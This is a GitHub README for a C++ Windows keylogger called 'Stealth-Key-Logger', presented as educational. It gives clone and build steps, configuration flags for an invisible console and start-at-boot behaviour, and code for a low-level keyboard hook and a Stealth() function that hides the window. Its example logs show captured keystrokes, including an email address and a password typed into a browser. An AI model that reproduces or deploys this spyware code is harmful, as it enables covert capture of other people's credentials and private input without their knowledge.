



# 🕵️‍♂️Windows Keylogger Documentation🔑

## Table of Contents
1. [Project Overview](#project-overview)
2. [Installation](#installation)
3. [Usage](#usage)
4. [Core Components](#core-components)
5. [Examples](#examples)

## Project Overview📝
The Windows Keylogger is a C++ application demonstrating advanced keyboard monitoring capabilities using Windows API. It implements keyboard hooks to capture keystrokes, tracks active windows, and maintains detailed logs with timestamps. The project showcases system programming concepts and Windows API integration for educational purposes.

## Installation⚙️
To compile and run the Windows Keylogger:

1. Clone the repository:
```bash
git clone https://github.com/RobCyberLab/Stealth-Key-Logger.git
```

2. Run KeyLogger.cp with Open in Visual Studio.

3. Required dependencies:
- Windows Operating System
- C++ Compiler (Visual Studio)
- Windows SDK

## Usage📖
1. Configure the application settings in the header:
```cpp
#define INVISIBLE  // Window visibility
#define BOOTWAIT   // Boot behavior
#define FORMAT 0   // Log format
```

2. Run the compiled executable:
- The program will start monitoring keystrokes
- Logs are saved to "keylogger.log"
- Press Ctrl+C to stop (if visible)
- To stop Key Capturing, open Task Manager and shut down the KeyLogger.exe executable

3. Configuration options:
   - **Visibility Modes**
     - VISIBLE: Shows console window
     - INVISIBLE: Hides console window
   - **Boot Options**
     - BOOTWAIT: Waits for system boot
     - NOWAIT: Starts immediately
   - **Format Options**
     - 0: Default format
     - 10: Decimal codes
     - 16: Hexadecimal codes

## Core Components🔐

### Keyboard Hook Implementation
```cpp
void SetHook() {
    _hook = SetWindowsHookEx(WH_KEYBOARD_LL, HookCallback, NULL, 0);
}

LRESULT HookCallback(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode >= 0 && wParam == WM_KEYDOWN) {
        kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);
        Save(kbdStruct.vkCode);
    }
    return CallNextHookEx(_hook, nCode, wParam, lParam);
}
```

### Key Processing System
```cpp
int Save(int key_stroke) {
    // Window tracking
    if (foreground) {
        // Log window changes with timestamp
    }
    
    // Key processing
    if (keyname.find(key_stroke) != keyname.end()) {
        // Handle special keys
    } else {
        // Process regular keys
    }
}
```

### Window Management
```cpp
void Stealth() {
#ifdef INVISIBLE
    ShowWindow(FindWindowA("ConsoleWindowClass", NULL), 0);
    FreeConsole();
#endif
}
```

## Examples📌

### Example 1: Basic Keystroke Logging
Log Output:
```
[Window: *Hello_World - Notepad - at 2024-11-19T22:08:58+0200] hello_world
```
<p align="center">
 
  <br>  <em>Basic text input logging with window information</em>
</p>

### Example 2: Special Key Handling
Log Output:
```
[Window: Fila noua – Google Chrome - at 2024-11-19T22:41:21+0200] user[RSHIFT]@gmail.com[TAB]password1234.
```
<p align="center">
 
  <br>
  <em>Special key logging with formatting</em>
</p>

### Example 3: Window Change Tracking
Log Output:
```
[Window: KeyLogger - Microsoft Visual Studio - at 2024-11-19T22:43:31+0200] return_0;

[Window: user@gmail.compassword1234. - Google Search – Google Chrome - at 2024-11-19T22:43:42+0200] search
```
<p align="center">
 
  <br>
  <em>Window change tracking with timestamps</em>
</p>

Note: The application includes several key features:
- Real-time keystroke capture
- Active window tracking
- Timestamp logging
- Special key recognition

These features demonstrate advanced Windows programming concepts while maintaining educational value for system programming study.